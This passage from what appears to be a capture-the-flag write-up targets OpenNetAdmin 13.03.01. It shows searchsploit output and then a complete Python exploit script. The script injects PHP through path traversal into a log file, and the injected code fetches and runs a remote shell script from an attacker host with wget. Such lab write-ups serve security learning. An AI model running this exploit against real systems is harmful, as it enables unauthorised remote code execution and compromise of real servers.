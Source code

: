 {% highlight console %}
root@kali:~$ searchsploit opennetadmin
----------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                         |  Path
                                                                       | (/usr/share/exploitdb/)
----------------------------------------------------------------------- ----------------------------------------
OpenNetAdmin 13.03.01 - Remote Code Execution                          | exploits/php/webapps/26682.txt
----------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
{% endhighlight %}

I always like trying old things to see if it still work or not. The file `26682.txt` contains some info about the exploit with `HTML` code as a PoC by **Mandat0ry** (aka Matthew Bryant). I didn't like `HTML` to exploit the application, so I wrote some `python` script to automate our process:

{% highlight python %}
#!/usr/bin/env python

from termcolor import colored
from requests import get, post

def RS():
    from random import choice
    from string import ascii_lowercase
    return ''.join(choice(ascii_lowercase) for i in range(4))

def exploit():
    url = 'http://openadmin.htb/ona/dcm.php'
    php_shell = "<?php exec('wget 10.10.15.253:8000/shell.sh;bash shell.sh') ?>"
    mod_name = RS()
    params, options = dict(), dict()

    options['desc'] = php_shell # php code
    options['name'] = mod_name  # module name to inject the code
    options['file'] = '../../../../../../../../../../../var/log/ona.log' # the file itself that

    params['options[desc]'] = options['desc']
    params['module'] = 'add_module'
    params['options[name]'] = options['name']
    params['options[file]'] = options['file']

    print colored('[!] Sending our payload...', 'yellow')
    post_shell = post(url, params = params)
    print colored('[+] Done', 'green')

    print colored('[!] Spawning a shell...', 'yellow')
    get_rce = url + '?module=' + mod_name
    get_shell = get(get_rce)
    print get_shell.text

exploit()
{% endhighlight %}
